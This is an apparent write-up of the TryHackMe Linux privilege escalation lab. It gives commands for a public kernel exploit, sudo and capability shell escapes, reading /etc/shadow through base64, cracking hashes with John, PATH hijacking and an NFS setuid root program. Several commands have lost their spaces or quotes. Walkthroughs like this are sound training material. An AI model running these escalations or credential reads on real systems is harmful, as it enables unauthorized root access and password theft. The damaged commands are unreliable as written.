---

# **Linux Privilege Escalation TryHackMe Room Walkthrough**

---

#### **Overview**

This lab focused on identifying and exploiting common Linux privilege escalation vectors. Throughout the exercise, I performed system enumeration, identified misconfigurations, and leveraged multiple privilege escalation techniques including kernel exploits, sudo misconfigurations, SUID binaries, Linux capabilities, cron jobs, PATH hijacking, and NFS misconfigurations.

The following sections document the methodology used during each stage of the assessment.

The following read-only sections were skipped as they did not require practical exploitation:

- Task 1: Introduction
- Task 2: What is Privilege Escalation?
- Task 4: Automated Enumeration Tools

---

### **Task 3 – Enumeration**

The enumeration phase focused on collecting system-level information to identify potential attack vectors.

**What is the hostname of the target system?**

```
hostname
```

**What is the Linux kernel version of the target system?**

```
uname -a
```

**What Linux is this?**

```
cat /etc/issue
```

**What version of the Python language is installed on the system?**

```
python --version
```

**What vulnerability seem to affect the kernel of the target system? (Enter a CVE number)**



#### **Summary**

System enumeration revealed key information about the target operating system and kernel version, which was later used to identify known privilege escalation vulnerabilities.





---

### **Task 5 – Privilege Escalation: Kernel Exploits**

This task focused on identifying and exploiting a vulnerable Linux kernel version to achieve local privilege escalation. The objective was to gain root-level access using a publicly available kernel exploit.

**1. Kernel Version Identification**

The first step in the exploitation process was to determine the kernel version of the target system.



The output provided detailed kernel information, which was used to assess potential vulnerabilities and identify applicable privilege escalation exploits.

**2. Exploit Research and Selection**

After identifying the kernel version, public exploit database Exploit-DB was used to locate a compatible local privilege escalation exploit. (The same exploit can be obtained using the offline version of  Exploit-DB -  Searchsploit, via the command: `searchsploit linux kernel 3.13`  

The exploit source code was [downloaded](https://www.exploit-db.com/exploits/37292) and staged locally for transfer to the target system.

**3. Initial Access Verification**

Before proceeding with exploitation, the current user context was verified on the target system:

This confirmed that the session was running with low-privileged user permissions.



**4. Setting Up File Transfer Mechanism**

To transfer the exploit to the target system, a Python-based HTTP server was initiated on the attacker machine:



The attacker’s IP address was then identified for connectivity:



**5. Exploit Transfer**

On the target system, the working directory was set to `/tmp` to ensure write permissions and avoid execution issues:

The exploit was downloaded from the attacker machine:



**6. Exploit Compilation**

Once transferred, the exploit source code was compiled using GCC:  `gcc 37292.c -o  pwned`

**7. Exploitation and Privilege Escalation**

The compiled binary was executed to trigger the kernel vulnerability:  `./pwned`

Following execution, user privileges were re-evaluated: `id`



The output confirmed successful privilege escalation to root.

**8. Post-Exploitation and Flag Retrieval**

With elevated privileges obtained, the system was enumerated for sensitive files.

A user directory for `matt` was identified, indicating a potential location for the target flag.

The flag file was located and read:



#### **Outcome**

This task demonstrated successful exploitation of a vulnerable Linux kernel using a publicly available exploit. The attack resulted in full privilege escalation from a standard user to root, enabling access to restricted system files.


---

### **Task 6 – Privilege Escalation: Sudo**

Sudo privileges were enumerated to identify permitted binaries.

**How many programs can the user "karen" run on the target system with sudo rights?**

```
sudo-l
```



**What is the content of the flag2.txt file?**



**How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?**


**What is the hash of frank's password?**

After returning to the root directory, system privileges were reassessed to confirm the current access level.

The output confirmed that the session was still operating under a non-root user context. As a result, access to sensitive system files such as `/etc/shadow` remained restricted.



The attempt to access the shadow file failed due to insufficient privileges, confirming that elevated access was required.

The user was found to have sudo privileges that allowed execution of `nano`. This misconfiguration was leveraged to spawn a root shell.

Nano was launched using sudo.

Within the editor, the following key sequence was used to access the command prompt:

```
CTRL + R
CTRL + X
```

A shell was then spawned using the following command:

```
reset;bash1>&02>&0
```


After executing the payload, system privileges were re-evaluated  using the command `id`   confirming the elevated access and the ability to see the output of the  `/etc/shadow`  file. 



---

### **Task 7 – SUID Exploitation**

**Which user shares the name of a great comic book writer?**

To find the users, `cat /etc/passwd` command  can be used.



**What is the password of user2?**

```
base64 /etc/passwd | base64--decode
```

```
base64 /etc/shadow | base64--decode
```

```
unshadow passwd.txt shadow.txt > passwords.txt
```

**Afterwards crack the password**

```
john--wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

**What is the content of the flag3.txt file?**

```
base64 /home/ubuntu/flag3.txt | base64--decode
```


---

### **Task 8 – Privilege Escalation: Capabilities**

**How many binaries have set capabilities?**

```
getcap -r / 2>/dev/null
```



**What other binary can be used  through its capabilities?**

```
getcap -r /
```



**What is the content of the flag4.txt file?**

```
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

```
cd /home/ubuntu
ls
cat flag4.txt
```




---

### **Task 9 – Privilege  Escalation: Cron Jobs**

**How many user-defined cron jobs can you see on the target system?**

```
cat /etc/crontab
```

Multiple root-level scheduled tasks were identified, indicating potential misconfigurations suitable for privilege escalation via writable scripts or binaries.



---

### **Task 10 – PATH Hijacking**

**What is the odd folder folder you have write access for?**

```
find / -writable 2>/dev/null | grep home
```



**Exploit the $PATH vulnerability to read the content of the flag6.txt file.**

```
cd /home/murdoch
ls -la
```

**Inspect Files**

```
file test
file thm.py
cat thm.py
```



When attempting to inspect the `thm` file, it became apparent that the file did not exist. Running the `./test` executable showed that it depended on `thm` being present. Since the binary was missing and the directory was writable, it was possible to create our own `thm` file.

To take advantage of this, a simple script was created that would display the contents of `flag6.txt`. After making the script executable and updating the `PATH` variable to include the current directory, running `./test` caused the custom `thm` script to be executed. This revealed the contents of the flag file and demonstrated a successful PATH hijacking attack.

**Create Malicious Binary**

```
touch thm
```

```
cat /home/matt/flag6.txt" > thm
```



```
chmod +x thm
```

**Modify PATH**

```
export PATH=/home/murdoch:$PATH
```

**Execute Vulnerable Program**

```
./test
```


---

### **Task 11 – NFS Misconfiguration**

**How many mountable shares can you identify on the target system?**

```
showmount -e <TARGET_IP>
```



**How many shares have the "no_root_squash" option enabled?**

```
cat /etc/exports
```



**Gain a root shell shell on the target system**

```
mkdir /tmp/sharedfolder
sudo mount -o rw 10.10.114.12:/home/ubuntu/sharedfolder /tmp/sharedfolder
```

**Create Exploit**

```
#include <stdio.h>
#include <stdlib.h>

intmain()
{
setgid(0);
setuid(0);
system("/bin/bash");
return0;
}
```

**Compile Exploit**

```
gcc nfs.c-o nfs
```

**Execute Exploit**

```
./nfs
```

**Retrieve Flag**

```
cat /home/matt/flag7.txt
```



---

### **Task 12 – Capstone Challenge**

**Enumerate Privileges**

```
whoami
id
```

**Find SUID Binaries**

```
find / -type f -perm -04000 -ls 2>/dev/null
```



**Extract Password Files**

```
base64 /etc/passwd | base64-d
base64 /etc/shadow | base64-d
```

**Prepare Hash Files**

```
unshadow passwd.txt shadow.txt > cracked.txt
```

**Crack Passwords**

```
john--wordlist=/usr/share/wordlists/rockyou.txt cracked.txt
```

**Switch User**

```
su missy
```

**Enumerate Sudo Rights**

```
sudo-l
```

**Locate Flag**

```
sudofind /-name"flag1.txt"
```

**Read Flag**

```
cat /home/missy/Documents/flag1.txt
```

**Privilege Escalation to Root**

```
sudofind .-exec /bin/sh \;-quit
```

**Retrieve Final Flag**

```
cat /home/rootflag/flag2.txt
```


---

### **Summary**

This engagement demonstrated multiple Linux privilege escalation techniques including kernel exploitation, misconfigured sudo permissions, insecure SUID binaries, PATH manipulation, cron job abuse, and NFS misconfigurations. Each vector was successfully exploited to escalate privileges and retrieve protected data.